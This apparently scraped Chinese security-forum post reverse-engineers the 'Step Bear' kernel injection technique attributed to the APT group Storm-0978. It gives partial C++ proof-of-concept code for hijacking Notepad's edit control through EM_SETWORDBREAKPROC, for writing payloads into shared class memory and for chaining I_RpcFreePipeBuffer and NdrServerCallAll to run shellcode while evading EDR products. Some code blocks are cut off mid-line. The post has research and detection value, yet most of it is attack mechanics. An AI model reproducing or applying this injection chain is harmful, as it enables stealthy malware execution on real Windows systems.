# [分享] 深度研究APT攻击组织Storm-0978注入技术 Step Bear

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1979667
- 抓取时间: 2026-11-01T23:46:38

## 简介

在2024-04-23的时候,qax的威胁情报团队披露了一个史无前例的攻击手法:

《EDR的梦魇：Storm-0978使用新型内核注入技术“Step Bear”》

[//ti.qianxin.com/blog/articles/The-Nightmare-of-EDR-Storm-0978-Utilizing-New-Kernel-Injection-Technique-Step-Bear-CN/" target="_blank"](https://ti.qianxin.com/blog/articles/The-Nightmare-of-EDR-Storm-0978-Utilizing-New-Kernel-Injection-Technique-Step-Bear-CN/:rel="nofollow noopener" href="https)

> 目前主流的 APT 组织都可以称为“Loader生产者”，花重金从外包公司购买一些劣质的加载器加载通用的木马后门，随即开始攻击活动，从技术角度来看这种类型的攻击并不具备逆向分析的意义，即使把“Step Bear”放到整个恶意软件的发展史来作比较，使用如此复杂的内核注入技术运行恶意代码的在野攻击案例并不多见，其中有些技术常见于 windows 内核提权的 EXP 代码中[2]，当然“Step Bear”注入技术中用了一些从未披露过的技术，例如 `Ndr64pFreeParams` 函数劫持执行流、未知隐藏窗口的自定义消息 `0x405` 的触发点，这意味着一个顶级的 windows 内核研究员利用自己对 windows 内核和 chromium 内核的独特理解设计了一套顶级的注入框架，结果对主流的 EDR 产品实现了降维打击，该人员对恶意代码的设计和编写也非常的熟练，实现注入的逻辑和触发的逻辑已经框架化，可以复用到任何攻击场景中。

那会对其就已经感兴趣了, 不过写了一会发现坑比较多需要心细逆向加上自己的事情也比较多,所以就搁置了,不过一直算一个事情吧,这几天终于下定决心进行完整复现.要不然再拖就过年了不太好。

## 结论

先说结论, 大部分人印象中的APT组织，可能是什么`xx钓鱼.exe` `xx简历.exe` 或者是用一些`Nday`开打，一系列加解密后,内存`manual map`一个`PE`文件或者`shellcode`上线`RAT`.

而实际上, 可能很多没发现的"APT"使用的技术超乎了大部分人的想象，这些APT的作者可能自己有非常丰富的开发，逆向，漏洞挖掘经验，甚至是有`AV`/`EDR`开发经验,十分熟悉操作系统内核。也熟悉怎么让安全软件`shut down`.毕竟,最危险的人是最懂安全软件的人

本文会详细介绍`step bear`的技术利用细节,此外会介绍检测办法以及附带`POC`源码.技术部分可能比较枯燥,如果不想看可以直接跳到文末.

## 免责声明

这里需要指出，虽然这篇文章可能会出现很多跟`qax`发布的信息有出入的地方，但并不是有抨击`qax`的兄弟们的意思，能分析出来大概思路的人也是牛逼。

这种高级攻击技术国内外具有发现和分析能力的厂商屈指可数.

## 前置技术

由于整个技术链利用非常复杂,考虑到受众,在不了解技术详情的情况下看会让人完全看不懂,所以写一下一些前置技术知识

### cbClsExtra内存

整个利用技术亮点之一 是`cls`内存

[//learn.microsoft.com/en-us/windows/win32/winmsg/about-window-classes?redirectedfrom=MSDN" target="_blank"](https://learn.microsoft.com/en-us/windows/win32/winmsg/about-window-classes?redirectedfrom=MSDN:rel="nofollow noopener" href="https)

```cpp
The SetClassWord and SetClassLong functions copy a value to the extra class memory. To retrieve a value from the extra class memory, use the GetClassWord and GetClassLong functions. The cbClsExtra member of the WNDCLASSEX structure specifies the amount of extra class memory to allocate. An application that does not use extra class memory must initialize the cbClsExtra member to zero.
```

`cbClsExtra`的内存是共享的,来自内核映射的.所有窗口进程都会共享这块内核地址.这就是一切的根本.这里不再阐述.

有趣的是,虽然微软提到不能超过40bytes,否则会异常,但是实际是可以超过40bytes,并且会覆盖掉其他窗口的标题的buffer导致其他窗口标题乱码


1.png (29.65 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAyOHxhZDhhYTk5ZXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAyOHxhZDhhYTk5ZXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:44 上传

这就意味着, 你改自己窗口`cls`地址，其他的系统内存也会同时被修改(换句话说,改自己,别人内存也会被改)

这个修改可以用`NtUserSetClassLong`进行修改.

### win32k窗口安全性问题

在3年前,看到过挂哥在用`win32k`的安全性问题做挂



2.png (167.23 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAyOXxiMzEyNGE1YnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAyOXxiMzEyNGE1YnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:44 上传

更早可以到2017年就有毛子用了

在去年的时候,也遇到了一个使用`win32k` 的攻击样本,在`key08`那会还专门隐晦的提到了一下(不能说的太直接的原因是危害非常大)



3.png (48.7 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzMHwxNjg4YmY4OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzMHwxNjg4YmY4OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:45 上传

造成这一切的原因是,`win32k`可以说跟`windows`的内核机制是两套东西.窗口句柄管理等不受`NTOS`内核的控制 另外`win32k`之前是`R3`的,为了性能搬迁到`R0`,导致出现了一个`R3->R0`的攻击面,非常多经典的`windows`漏洞都出自这个攻击面里面.

### RPC

在`windows`中有一套`COM`/`DCOM`通讯机制的上层包装,`RPC`,`RPC`更底层是`ALPC`,这里不做讨论.`DOCM`和`COM`绝对是有史以来`windows`最复杂的`IPC`通讯机制,也是漏洞最多的机制.`WMI`/`计划任务`/`大部分横向移动` 都是基于`RPC`的机制的(`135`/`139`/`445`端口).

## "Step Bear"技术分析

总体流程是这样的(个人认为的):



4.png (25.15 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzMXwzOTY5ODVhZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzMXwzOTY5ODVhZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:45 上传

### 0x1 cls内存跨进程读写payload

`qax`的威胁情报中心提到:



5.png (391.15 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzM3w1MmZhMTc3OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzM3w1MmZhMTc3OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:46 上传

这实际上利用了`cls`共享内存的机制写`payload`

我们复现步骤也同理,创建一个窗口,这个窗口要带`cbClsExtra`



6.png (151.07 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjczNDAzNHw4NDhjOTAyNHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzNHw4NDhjOTAyNHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:46 上传

```
 // 获取notepad进程中edit窗口的句柄
    HWND hwndNotepad = FindWindow(L"Notepad", NULL);
    HWND hwndEdit = FindWindowEx(hwndNotepad, NULL, L"Edit", NULL);
    if (!hwndEdit) {
        std::cerr
```

### 0x2 定位目标CLS内存

但是有个问题,没办法定位目标进程的`cls`地址,因为那个地方是每个进程`map`一个地址,而不是全部的.

我这边用的是`readmemory`,实在是想不到好的办法了.有好的办法评论区跟我说一下

首先我们给自己的`cls`打上标记

```
    // 通过查找TEB->Win32ClientInfo->phkCurrent结构下的AllocationBase来确定窗口内存的基址
    // 只是缩小范围,其实不如直接virtualqueryex,我实在是不知道这里要怎么定位到notepad的地址.如果用win32
    // api edr绝对有痕迹 这里就是用readmemory

    const char shitInput[] = {0x13, 0x37, 0xCC, 0xA0, 0xA0,
                              0x68, 0x75, 0x6f, 0x6a, 0x69};

    // https://github.com/wine-mirror/w ... win32u/class.c#L705
    // offset = 0
    for (size_t i = 0; i
```

```
PVOID
LookupTagClsAddressByProcess(HANDLE ProcessHandle) {
#ifdef _WIN64
#define START_ADDRESS (PVOID)0x00000000010000
#define END_ADDRESS (0x00007FF8F2580000 - 0x00000000010000)
#else
#define START_ADDRESS (PVOID)0x10000
#define END_ADDRESS (0x7FFF0000 - 0x10000)
#endif
    typedef LONG(NTAPI * FnZwQueryVirtualMemory)(HANDLE, PVOID, int, PVOID,
                                                 SIZE_T, PSIZE_T);
    static FnZwQueryVirtualMemory ZwQueryVirtualMemory =
        (FnZwQueryVirtualMemory)GetProcAddress(LoadLibrary(L"ntdll.dll"),
                                               "ZwQueryVirtualMemory");
    if (!ZwQueryVirtualMemory) {
        std::cerr
```



7.png (145.08 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzNXw1ZWQ2ZjhlMnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzNXw1ZWQ2ZjhlMnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:47 上传

### 0x3 notepad注入

`cls`地址找到后,就需要找激活启动它.这边作者用了一个叫做`notepad`注入的东西:

这个作者抄了这玩意: [//modexp.wordpress.com/2020/07/07/wpi-wm-paste/" target="_blank"](https://modexp.wordpress.com/2020/07/07/wpi-wm-paste/:rel="nofollow noopener" href="https) [//github.com/odzhan/injection/blob/master/eminject/poc.c#L38" target="_blank"](https://github.com/odzhan/injection/blob/master/eminject/poc.c#L38:rel="nofollow noopener" href="https)

意思其实就是,`notepad`的编辑框的内存是可读可写的,很适合拿来放`payload`, **而且可以通过窗口消息不用`writememory`这个敏感`API`就可以做到** 所以他给`notepad`的`edit`组件写了一个`cls`的地址.这个地址可以`EM_SETWORDBREAKPROC`消息执行,而`EM_SETWORDBREAKPROC`消息是一个窗口回调,这个回调是通过`PostMessageA`设置的, 其中第一个参数就是 `cls`的地址。

具体来说

```
auto result1 =
        SendMessageA(hwndEdit, WM_SETTEXT, 0, (LPARAM)&TheNotepadTagClsAddress);

    // auto result1 = NtUserMessageCall(hwndEdit, WM_SETTEXT, 0,
    // (LPARAM)&TheNotepadTagClsAddress, 0, 0x2B1, 1);

    //  等完全输入完毕

    WaitForInputIdle(pi.hProcess, INFINITE);
```


```
    result1 = PostMessageA(hwndEdit, WM_LBUTTONDBLCLK, MK_LBUTTON, (LPARAM)0);

    // ***这里有个限制 除非我是英文系统 否则会被格式为Utf-8导致不能用**

    // 我直接writememory让那个地方看起来像是英文系统

    auto emh = (PVOID)SendMessage(hwndEdit, EM_GETHANDLE, 0, 0);

    PVOID embuf;

    SIZE_T numOfWrite;

    ReadProcessMemory(pi.hProcess, emh, &embuf, sizeof(ULONG_PTR), &numOfWrite);

    WriteProcessMemory(pi.hProcess, embuf, &TheNotepadTagClsAddress, 8,

                       &numOfWrite);

......

// 2.设置I_RpcFreePipeBuffer为回调地址

// bp rpcrt4!I_RpcFreePipeBuffer

result1 = PostMessageA(hwndEdit, EM_SETWORDBREAKPROC, 0,

                                           (LPARAM)theI_RpcFreePipeBufferAddr);

// 3. 激活

result1 = PostMessageA(hwndEdit, WM_LBUTTONDBLCLK, MK_LBUTTON, (LPARAM)0);

// 4. cleanup

SendMessage(hwndEdit, EM_SETWORDBREAKPROC, 0, (LPARAM)NULL);
```

简单来说，就是可以利用`EM_SETWORDBREAKPROC`这个回调让任意的函数地址执行恶意的 payload。

不过我们这里不是英文系统，会自动地给用消息发给记事本的内存加 0，比如你发了 13 37，系统会给你改为 13 00 37 00，不太好处理，直接用`writememory`了。

这边作者把回调地址设置为了`I_RpcFreePipeBuffer`：

而这个`I_RpcFreePipeBuffer`会把第一个参数当成`RPC_MESSAGE`，然后 call 传进来参数的地址的。



8.png (13.56 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjczNDAzNnwyYzFiN2VmZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzNnwyYzFiN2VmZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:47 上传

**而我们第一个参数是`cls`的地址，这个地址我们是可控的。**因此我们就实现了第一步：让窗口可以 call 任意地址并且带参数。只需要我们构造合适的参数...

## 0x4 NdrServerCallAll

作者使用了`NdrServerCallAll`作为gate，让他反序化结构体



9.png (251.01 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzN3xiYmY2ZWM0ZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzN3xiYmY2ZWM0ZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:48 上传

我们也这样干

```asm
const auto allocShellcodeSize = 2048;
    char* tmpShellcode = (char*)malloc(allocShellcodeSize);
    memset(tmpShellcode, 0, allocShellcodeSize);
    char* editShellcode = (char*)malloc(allocShellcodeSize);
    memset(editShellcode, 0, allocShellcodeSize);
    // I_RpcFreePipeBuffer(Message)

    // Message = EditControlPtr
    // Message->Handle = Shellcode
    // *Message->Handle = Shellcode
    *(ULONG_PTR*)tmpShellcode = (ULONG_PTR)TheNotepadTagClsAddress;

    // *Message->Handle + 0x80 = NdrServerCallAll
    *(ULONG_PTR*)(tmpShellcode + 0x80) = (ULONG_PTR)theNdrServerCallAllAddress;
```

`NdrServerCallAll`的函数会call一个`Ndr64StubWorker`

这个`Ndr64StubWorker`的实现非常复杂，我们需要逐步拆解



10.png (29.92 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzOHwwNDkwZGEyYXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzOHwwNDkwZGEyYXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:48 上传

## 0x5 Ndr64StubWorker

这个函数接受一个RPC的结构体：



11.png (142.46 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDAzOXw4OTdjMzc3NXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDAzOXw4OTdjMzc3NXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:48 上传

不过这个是32位的图，64位偏移得变一下

```asm
RPC_MESSAGE

buffer：存储函数调用中使用的参数的缓冲区。

BufferLength：缓冲区的长度

ProcNum：过程号，DispatchTable中要调用的函数索引

RpcInterfaceInformation：RPC_SERVER_INTERFACE结构体指针

RPC_SERVER_INTERFACE

InterpreterInfo：MIDL_SERVER_INFO结构指针

MIDL_SERVER_INFO

pStubDesc：MIDL_STUB_DESC结构体指针；

DispatchTable：功能表

ProcString：存储调用过程所需的信息（调用中使用的堆栈大小、参数数量等）

FmtStringOffset：存储调用特定过程时要使用的 ProcString 偏移量的数组。
```

这个函数流程如下：

```asm
MulNdrpInitializeContextFromProc 初始化RPC上下文-我们不关心
NdrpServerInit 初始化RPC服务端 -我们不关心
NdrpServerUnMarshal 反序化参数 -我们关心
Invoke 执行 -我们关心
```

### 初始化_MIDL_STUB_MESSAGE

这个函数在前面进行一系列的检查后，会先给自己赋值一个结构体`_MIDL_STUB_MESSAGE`



12.png (80.2 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjczNDA0MHwyYmEwMTdlYnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA0MHwyYmEwMTdlYnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:49 上传

```asm
pContext = (unsigned __int8 **)pMessage.pContext;

    memset_0(&pMessage, 0, sizeof(pMessage));

    pMessage.dwDestContext = 2;

    pMessage.BufferStart = (unsigned __int8 *)prpcMsg->Buffer;

    pMessage.BufferEnd = &pMessage.BufferStart[prpcMsg->BufferLength];

    pMessage.pfnAllocate = pStubDesc->pfnAllocate;

    pMessage.pfnFree = pStubDesc->pfnFree;

    pMessage.ReuseBuffer = 0;

    pMessage.StubDesc = pStubDesc;

    pMessage.RpcMsg = prpcMsg;

    pMessage.Buffer = pMessage.BufferStart;

    pMessage.pContext = (_NDR_PROC_CONTEXT *)pContext;

    pMessage.StackTop = pContext[6];

    *((_DWORD *)&pMessage + 48) = *((_DWORD *)&pMessage + 48) & 0xFFFFF6FF | 0x100;

    pMessage.pUserMarshalList = 0i64;

    pMessage.LowStackMark = &v93 - 1333;

    pMallocFreeStruct = pStubDesc->pMallocFreeStruct;
```

初始化完毕后，会把函数反序化给`Ndr64pServerUnMarshal`

然后根据信息分配服务端的 handle：

